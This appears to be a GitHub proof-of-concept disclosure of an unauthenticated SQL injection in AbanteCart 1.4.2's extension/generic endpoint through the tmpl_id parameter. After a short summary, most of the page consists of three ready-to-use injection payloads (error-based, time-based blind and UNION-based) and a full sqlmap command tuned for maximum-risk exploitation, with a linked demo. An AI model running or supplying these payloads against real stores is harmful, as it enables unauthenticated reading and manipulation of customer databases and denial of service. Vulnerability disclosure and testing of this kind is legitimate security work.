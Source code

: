 

AbanteCart 1.4.2’s extension/generic endpoint is vulnerable to unauthenticated SQL injection via its URI parameter, allowing attackers to inject arbitrary queries. Three techniques have been demonstrated: error-based injection using a crafted FLOOR-based payload, time-based blind injection via SLEEP(), and UNION-based injection to extract arbitrary data. An attacker can exploit this flaw without any credentials to read or manipulate the database and even cause denial-of-service delays. Automation tools like sqlmap can fully exploit the vulnerability with high risk and confidence levels. Patching to a fixed version or enforcing parameterized queries and strict input validation will mitigate the issue


```
Parameter: #1* (URI)

Type: error-based

Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)

Payload: https://abantecart.mydomain.local/index.php?rt=extension/generic&layout_id=21&tmpl_id=novator' AND (SELECT 3875 FROM(SELECT COUNT(*),CONCAT(0x717a766b71,(SELECT (ELT(3875=3875,1))),0x7178766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- LeJi&pb=Qu2sbP4VAZzalFIcmM7ZirFAsh5mjwZt



Type: time-based blind

Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)

Payload: https://abantecart.mydomain.local/index.php?rt=extension/generic&layout_id=21&tmpl_id=novator' OR SLEEP(5)-- molm&pb=Qu2sbP4VAZzalFIcmM7ZirFAsh5mjwZt



Type: UNION query

Title: Generic UNION query (NULL) - 7 columns

Payload: https://abantecart.mydomain.local/index.php?rt=extension/generic&layout_id=21&tmpl_id=novator' UNION ALL SELECT NULL,NULL,CONCAT(0x717a766b71,0x5774684b744b685477646a5750474952555a70454a776c77666442567169746d4b415749446d7178,0x7178766a71),NULL,NULL,NULL,NULL-- -&pb=Qu2sbP4VAZzalFIcmM7ZirFAsh5mjwZt

---
```


This is a unique case where cookies are wanted to be set.  This is the best command to use
 python3 ~/tools/sqlmapproject-sqlmap-c8c7fee/sqlmap.py -r ./sql.txt --level 5 --risk 3 --force-ssl --dbms mysql --answers='you have not declared cookie=n,Do you want to follow?=y' --flush


![](https://github.com/4rdr/proofs/blob/main/gifs/abante-1.4.2-unauthenticated-sql-injection.gif?raw=true)

